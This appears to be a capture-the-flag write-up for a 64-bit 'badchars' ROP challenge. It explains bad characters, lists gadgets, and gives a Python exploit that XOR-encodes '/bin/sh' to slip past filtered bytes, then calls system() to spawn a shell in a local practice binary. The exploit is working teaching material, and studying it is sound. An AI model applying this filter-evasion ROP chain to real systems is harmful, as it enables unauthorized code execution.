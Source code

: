 # badchars - 64 bit

we are progressing in the series and the challanges are becoming more interesting.  
     
this time we have to deal with badchars.
    
badchars are characters that will not appear in memory the way we expect them to     
and therefore will cause unexpected behaviour.    
     
for example: a null byte is the most common bad char as it will usually(not in this challange though) terminate our input. 
    
we are granted with a list of bad chars when we execute the binary. 
    
![begin](https://user-images.githubusercontent.com/60041914/78296351-3a98d600-7536-11ea-99f1-b680518e923f.png)
   
when checking out the gadgets we should look for ways to bypass this constraint.    
it's time to get creative.     
looking around I find these gadgets useful:  
```assembly_x86
0x0000000000400b30 : xor byte ptr [r15], r14b ; ret
0x0000000000400b40 : pop r14 ; pop r15 ; ret
0x0000000000400b39 : pop rdi ; ret
0x0000000000400b34 : mov qword ptr [r13], r12 ; ret
0x0000000000400b3b : pop r12 ; pop r13 ; ret
```
   
you might understand what I'm getting at just by looking at them.    
my plan is to place a string in memory("/bin/sh")    
whose bad chars are xored with a key and then xor these same chars again.    

plan in detail:    
1.xor the bad chars in our string with a key      
2.use "pop r12 ; pop r13 ; ret" to set r12 to the string, r13 the desired address           
3.use "mov qword ptr [r13], r12 ; ret" to write the string to memory        
preform step 4,5 for each xored char:       
4.use "pop r14 ; pop r15 ; ret" to set r14 to the key,r15 to the address of the char           
5.use "xor byte ptr [r15], r14b ; ret" to xor them       
6.use "pop rdi ; ret" to point rdi to our decrypted string in memory      
7.call system    
8.profit????    
     
the rop chain looks like this:   
```python
bad_chars=['b', 'i', 'c', '/' ,' ','f','n','s']

CALL_SYSTEM=0x004006f0
STR_ADDR=0x00601100
SET_RDI=0x00400b39
SET_XOR_REGS = 0x00400b40
XOR_BYTES=0x00400b30
SET_REGS=0x00400b3b
WRITE_MEM=0x00400b34

xor_key=0x12

def write_str(s,addr,exp):
    #write 8 byte string with bad chars
    exp+=p64(SET_REGS)
    s=list(s)
    xored_s=[chr(ord(ch)^xor_key) if ch in bad_chars else ch for ch in s]
    exp+="".join(xored_s)
    exp+=p64(addr)
    exp+=p64(WRITE_MEM)
    for ch in s:
        if ch in bad_chars:
            exp+=p64(SET_XOR_REGS)
            exp+=chr(xor_key)+"\x00"*7
            exp+=p64(addr)
            exp+=p64(XOR_BYTES)
        addr+=1

    return exp

r=process("./badchars")
exploit=b'A'*40
exploit=write_str("/bin/sh\x00",STR_ADDR,exploit)
exploit+=p64(SET_RDI)
exploit+=p64(STR_ADDR)
exploit+=p64(CALL_SYSTEM)
```
    
it works!     
![sof](https://user-images.githubusercontent.com/60041914/78296354-3bca0300-7536-11ea-987b-6d79073ae313.png)
